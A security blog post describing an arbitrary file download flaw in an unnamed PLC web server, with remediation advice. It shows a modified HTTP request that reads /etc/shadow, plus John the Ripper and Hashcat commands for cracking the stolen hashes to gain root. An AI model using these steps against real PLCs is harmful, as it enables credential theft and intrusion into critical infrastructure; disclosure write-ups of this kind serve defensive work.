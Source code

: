 ```yaml
---
layout: single
title: PLC Web Server Arbitrary File Download to RCE
date: 2023-2-26
classes: wide
header:
  teaser: 
tags:
  - CVE
  - Web
---
```

In this post I'll go over a simple arbitrary file download vulnerability I found on the webserver of a commonly used PLC. 
To avoid disclosing the vulnerability to the public before a CVE has been formally given, I won't give specific details of the brand, model, and software this exploit applies to. 

This can be leveraged to gain root access on the underlying OS and implant backdoors, further traverse through the network, interrupt the normal operation of critical infrastructure, etc. 


The basic flow of the exploiting the vuln goes as follows:

1. Login to the web server with credentials for the admin user on the PLC.
2. Find/enable OpenVPN file download and upload.
3. Intercept the download.php request and replace the openvpn file it's requesting with any arbitrary file
4. Profit?


Exploitation
---
Intercepting the request to download the OpenVPN config and  looking further we can see that the path to the file we're downloading is communicated to us. We can attempt to change the path to a file that we would like to download instead.
From: 
```
GET /XXX/php/file_transfer/download.php?download=/tmp/vpncfg-out/openvpn.conf&csrf=yourCSRFtoken HTTP/1.1
Host: 192.168.1.87
Cookie: REDACTED
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: https://192.168.1.87/XXX/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

To:
`GET /XXX/php/file_transfer/download.php?download=/etc/shadow&csrf=yourCSRFtoken HTTP/1.1`

We can leverage this to download the /etc/shadow and /etc/password file, unshadow them, then crack the passwords to login as root via SSH and/or reuse the credentials somewhere else in the network.

Using John The Ripper:
```
unshadow passwd shadow

john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```


Using Hashcat:
With hashcat we don't have to unshadow the files to match the users to the the hashes like John the ripper. 

Feed Hashcat the shadow file with -m specified for 
`1800 | sha512crypt $6$, SHA512 (Unix) | Operating System`
```
hashcat -m 1800 -a 0 shadow.txt /usr/share/wordlists/rockyou1.txt
```

Remediation
---
The vulnerable code can be found in the download.php file. 
```
if (isset($_GET['download'])) {
    $downloadPath = $_GET['download'];
```

What could be done to make this more secure is:
1. Check if the file is allowed to be accessed before downloading. Whitelisting acceptable file paths for example.
2. Remove the ability for users to modify the path of the file downloaded.
3. Make sure that the web server user has the least amount of privilege necessary to accomplish the task.
